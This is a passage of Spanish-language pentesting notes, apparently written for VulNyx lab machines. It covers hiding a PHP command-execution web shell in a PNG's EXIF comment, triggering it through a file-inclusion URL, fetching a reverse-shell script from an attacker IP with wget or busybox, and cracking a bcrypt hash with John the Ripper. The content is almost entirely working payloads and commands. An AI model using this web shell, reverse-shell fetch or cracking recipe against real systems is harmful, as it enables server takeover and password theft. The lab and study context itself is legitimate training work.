 Ejemplo máquina call de vulnyx

-------------------------------------------------------------------------------

## 85.- Crear una web shell con una imagen .png

primero creamos una imagen en blanco.

convert -size 150x150 xc:white daniel.png 

luego cargamos la web shell cmd en la imagen daniel.png
exiftool -comment='<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>' daniel.png

accedemos donde está la imagen

así es como se guarda la imagen en el servidor:

9551640368051400adf634.83527497.png

http://twitx.nyx/private.php?folder=upload&file=9551640368051400adf634.83527497.png&cmd=comando

ahora para acceder a la máquina podemos cargar un revshell rev.php


ejemplo:

con wget

http://twitx.nyx/private.php?folder=upload&file=9551640368051400adf634.83527497.png&cmd=wget http://192.168.42.133/rev.php

con busybox

http://twitx.nyx/private.php?folder=upload&file=9551640368051400adf634.83527497.png&cmd=busybox wget http://192.168.42.133/rev.php

-------------------------------------------------------------------------------

## 86.- Desencriptar bcrypt

echo "hash-bcrypt" > hash.txt

echo "$2y$10$OZh9Cqq7PupktlS/LbtJu.c4bFXWUaTW3zAbmS1litThpCfMAurtm" > hash.txt

hashid hash.txt

resultado:

--File 'hash.txt'--
Analyzing '$2y$10$OZh9Cqq7PupktlS/LbtJu.c4bFXWUaTW3zAbmS1litThpCfMAurtm'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 
--End of file 'hash.txt'-- 


cracking Johntheripper

john --wordlist=/usr/share/wordlists/rockyou.txt --forma=bcrypt hash.txt



